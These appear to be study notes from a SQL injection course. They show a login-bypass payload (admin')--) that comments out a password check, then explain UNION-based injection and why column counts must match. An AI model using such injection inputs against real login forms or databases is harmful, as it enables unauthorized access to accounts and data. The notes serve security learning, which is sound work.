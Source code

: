   - Query: `SELECT * FROM logins WHERE (username='admin' -- AND id > 1) AND password='437b930db84b8079c2dd804a71936b5f';`
  - Output: Syntax error (unclosed parenthesis).
  - Corrected Input: `username=admin')--`, `password=[any]`
  - Query:
    ```sql
    SELECT * FROM logins WHERE (username='admin') -- AND id > 1) AND password='437b930db84b8079c2dd804a71936b5f';
    ```
  - Effect: Closes parenthesis, comments out remaining conditions, becomes `SELECT * FROM logins WHERE (username='admin')`.
  - Output: `Login successful as user: admin`.

# Notes on Union Clause

## Overview
- **Purpose**: Introduces SQL Union clause and its use in SQL injection to execute additional queries and extract data from multiple tables in MySQL.
- **Focus**: Demonstrates combining `SELECT` statements with `UNION` and handling column mismatches for effective Union-based SQL injection.

## Union
- **Role**: Combines results from multiple `SELECT` statements into a single output.
- **Requirement**: All `SELECT` statements must have the same number of columns with matching data types.
- **Example**:
  - Tables:
    - `ports`: Columns `code`, `city` (e.g., `CN SHA | Shanghai`, `SG SIN | Singapore`, `ZZ-21 | Shenzhen`).
    - `ships`: Columns `ship`, `city` (e.g., `Morrison | New York`).
  - Query:
    ```sql
    SELECT * FROM ports UNION SELECT * FROM ships;
    ```
  - Output:
    ```
    | code      | city      |
    | CN SHA    | Shanghai  |
    | SG SIN    | Singapore |
    | Morrison  | New York  |
    | ZZ-21     | Shenzhen  |
    ```
    - Combines 3 rows from `ports` and 1 from `ships` into 4 rows.

## Even Columns
- **Requirement**: `UNION` requires equal column counts in all `SELECT` statements.
- **Error Example**:
  ```sql
  SELECT city FROM ports UNION SELECT * FROM ships;
  ```
  - Error: `ERROR 1222 (21000): The used SELECT statements have a different number`
    - `ports` returns 1 column (`city`), `ships` returns 2 (`ship`, `city`).
- **Solution**: Ensure both `SELECT` statements return the same number of columns.
